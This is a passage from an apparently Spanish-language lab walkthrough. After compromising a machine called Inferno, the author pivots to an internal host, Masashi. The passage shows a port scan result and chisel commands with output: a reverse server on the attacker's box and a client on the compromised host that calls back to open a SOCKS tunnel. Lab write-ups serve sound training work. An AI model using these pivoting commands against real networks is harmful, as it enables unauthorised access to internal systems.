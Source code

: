 ```bash
dante@Inferno:/tmp$ ./portDiscovery.sh 
[+] Port 22 - OPEN
[+] Port 80 - OPEN
```
A partir de este punto para trabajar más cómodamente vamos a crear un túnel por el cual nos vamos a poder acceder a la máquina `Masashi` desde nuestra equipo atacante a pesar de no tener conexión directa al no estar en el mismo segmento. Para esta tarea utilizaremos la herarmienta `chisel` la cual debemos subir a la máquina `Inferno` que es la que está en el mismo segmento que la `Masashi`. Los ejecutaremos de la siguiente forma

```bash
#Atacante
❯ ./chisel server --reverse -p 1234
2022/11/25 15:51:52 server: Reverse tunnelling enabled
2022/11/25 15:51:52 server: Fingerprint kEM4Zr5vaaKkRIeZHcew+ywR/TTw5G3WIFp9JynPrfU=
2022/11/25 15:51:52 server: Listening on http://0.0.0.0:1234
2022/11/25 15:52:40 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

```bash
#Inferno
dante@Inferno:/tmp$ ./chisel client 192.168.1.148:1234 R:socks
2022/11/25 09:52:40 client: Connecting to ws://192.168.1.148:1234
2022/11/25 09:52:40 client: Connected (Latency 699.578µs)
```
Añadimos al firefox una regla en el add-on Foxy proxy de la siguiente forma y ya podemos acceder por el navegador directamente a la máquina `Masashi` por el puerto 80

<img src="/assets/VH/Inferno-Mashashi/foxy.png">

<img src="/assets/VH/Inferno-Mashashi/apache.png">